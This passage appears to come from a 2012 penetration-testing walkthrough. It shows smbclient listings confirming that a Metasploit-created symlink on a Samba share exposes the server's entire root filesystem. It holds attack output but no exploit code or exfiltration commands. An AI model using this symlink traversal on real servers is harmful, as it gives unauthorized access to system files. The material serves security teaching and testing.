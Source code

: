 ![](/images/2012-08-29/05.png)

Metasploit successfully creates the symlink. We can verify this with smbclient.

```
smb: \> dir
  .                                   D        0  Tue Aug 28 19:52:56 2012
  ..                                  D        0  Tue Aug 28 20:40:02 2012
  rootfs                              D        0  Tue Aug 28 20:40:02 2012
  test.txt                            A        6  Tue Aug 28 19:39:53 2012
  session_mm_apache0.sem                       0  Tue Aug 28 18:41:03 2012
  .X11-unix                          DH        0  Tue Aug 28 18:40:19 2012
  .ICE-unix                          DH        0  Tue Aug 28 18:40:19 2012
 
  38631 blocks of size 16384. 30700 blocks available
smb: \> 
```

If we go into the rootfs directory and do a listing, we see the contents of the server's root directory:

```
smb: \> cd rootfs
smb: \rootfs\> ls
  .                                   D        0  Tue Aug 28 20:40:02 2012
  ..                                  D        0  Tue Aug 28 20:40:02 2012
  var                                 D        0  Thu Sep 28 17:17:18 2006
  tmp                                 D        0  Tue Aug 28 19:52:56 2012
  dev                                 D        0  Tue Aug 28 18:41:06 2012
  sys                                 D        0  Tue Aug 28 20:39:38 2012
  proc                               DR        0  Tue Aug 28 20:39:38 2012
  boot                                D        0  Mon Feb 21 06:29:26 2011
  mnt                                 D        0  Tue Aug 28 20:40:02 2012
  etc                                 D        0  Tue Aug 28 18:41:05 2012
  usr                                 D        0  Fri Feb 18 03:10:16 2011
  srv                                 D        0  Sat Apr  7 19:30:06 2007
  sbin                                D        0  Mon Feb 14 05:35:48 2011
  root                                D        0  Mon Feb 21 06:25:52 2011
  opt                                 D        0  Sun Jun 10 02:23:35 2007
  lib                                 D        0  Fri Feb 18 02:39:02 2011
  home                                D        0  Mon Feb 14 06:00:31 2011
  bin                                 D        0  Mon Apr 30 00:35:12 2007
 
  38631 blocks of size 16384. 30623 blocks available
smb: \rootfs\>
```